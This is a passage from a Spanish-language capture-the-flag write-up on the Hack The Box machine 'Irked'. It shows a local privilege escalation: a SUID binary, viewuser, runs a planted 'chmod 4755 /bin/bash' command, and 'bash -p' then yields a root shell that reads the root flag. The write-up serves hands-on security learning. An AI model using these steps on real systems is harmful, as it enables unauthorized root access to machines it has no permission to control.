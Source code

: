 ```bash

chmod 4755 /bin/bash
echo "Pwneado"
```
Procedemos a ejecutar el binario ./viewuser para qque nos interprete nuestro comandos en el archivo listuser 
Acordarse de darle permisos de ejecucion con `chmod +x`
```bash
djmardov@irked:/usr/bin$ ./viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-08-05 10:35 (:0)
djmardov pts/1        2021-08-05 11:24 (10.10.16.241)
Pwneado
```
Verificamos que nos a ejecutado el comando introducido para darle permisos SUID a la `/bin/bash7`
```bash
djmardov@irked:/usr/bin$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1105840 Nov  5  2016 /bin/bash
```
Sacamos la flag de root
```bash
djmardov@irked:/$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt 
8d8e9e8be64654b6dccc3bxxxxxxxxxxxxx
```
Maquina Irked Pwneada =) Seguimos Full Hack Aprendiendo
